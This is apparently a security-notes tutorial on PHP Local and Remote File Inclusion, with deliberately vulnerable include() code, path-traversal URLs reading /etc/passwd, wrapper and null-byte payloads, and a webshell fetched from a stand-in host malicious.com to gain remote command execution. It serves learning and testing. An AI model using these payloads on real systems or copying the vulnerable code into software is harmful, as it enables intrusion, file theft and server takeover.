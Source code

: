 # LFI (Local File Inclusion)
This is a vulnerability tat allows an attacker to include files on a server through the webbrowser basically to read them, apart from the hosted web-root directory.

LFI is mostly caused when a developer is too lazy to write a secure code >.<

```php=
<?php
	$file = $_GET['page'];
	if (isset($file)){
		include("pages/$file");
	} else {
		include("ingex.php");
	}
?>
```

That above is an example of a vulnerable LFI code.

### Identifying LFI vulnerabilities
Say you visit a website `http://example.com/index.php` and from the navigation bar you find `http://example.com/index.php?page=about.php`, An attacker can attempt to exploit this by trying LFI:

`http://example.com/index.php?page=about.php`
`http://example.com/index.php?page=../../../../../../../etc/passwd`

Where this will include the `/etc/passwd` file instead of `about.php`

### Wrappers (PHP)
Sometimes wrappers can be used in this case , but depends with if the wrapper you are to use is allowed or not.

***EXPECT***
This wrapper allows execution of system commands , unfortunately it is not enabled by default, it can be used as below:

`http://example.com/index.php?page=expect://ls`

And the output over here shall be the listing of the files inside the server from the pwd it was executed at

***INPUT***
This wrapper also allows system commands execution , it can be used as follows:

`curl -X POST "http://example.com/index.php?page=php://input&cmd=ls" -d <?php echo system($_GET['cmd'];);?>`

***FILTER***
Allows an attacker to include localfiles which are then encoded with base64 to be the output, thus an attacker will have to decode the base64 content to get the plain text content, here is an example:

`http://example.com/inedx.php?page=php://filter/convert.base64-encode/resource=/etc/passwd`

This will encode the `/etc/passwd` file in base64 then output it.

### Null Byte Technique Bypassing
Sometimes it is filtered thus you have to bypass the filter to be able to fully perform LFI , by this we can bypass the filters using Null byte injection bypasses where as we add URL encoded `NULL BYTES` such as `%00` , for example:

`http://example.com/index.php?page=/etc/passwd%00`

### LFI 2 RCE
There are plenty of ways to get RCE from LFI , among them is by performing Log poisoning where as you send a request with a shell snippet code and then access the log and add a parameter that will perform execution of system commands , and the other would be by poisoning mail logs , and as well as the `input` wrapper and the `expect` wrapper

# RFI (Remote File Inclusion)
This vulnerability is almost the same to LFI but this one is of course remote , so you can perform almost the same thing in LFI but by accessing a remote vendor saying the code is :

```php=
<?php
	$file = $_REQUEST['file'];
	if (isset($file)){
		include($file.'php');
	} else {
		include('index.php');
	}
?>
```

This is just an example of what the code looks like , so basically what it does it just takes the `?page=` parameter with a page like `about` without the `.php` at the end and then it outputs it, so we can take advantage of this by hosting a malicious script from our server `malicious.com` and then host the malicious php webshell from it and then request it from the website that is vulnerable without the extension, the malicious script would in this case be:

```php
<?=`$_POST[0]`?>
```

Where it is taking the data `0` and then executing it with system command then outputing the result so we can host it and access it to the targetted site with curl simple by writing:

```bash
curl -X POST "http://example.com/index.php?page=http://malicious.com/evil" -d "0=ls"
```

We didn't write `evil.php` because it will say not found since it will be called as `evil.php.php` , instead I just wrote `evil` where it will then be called `evil.php`.

From there I can definitely get RCE
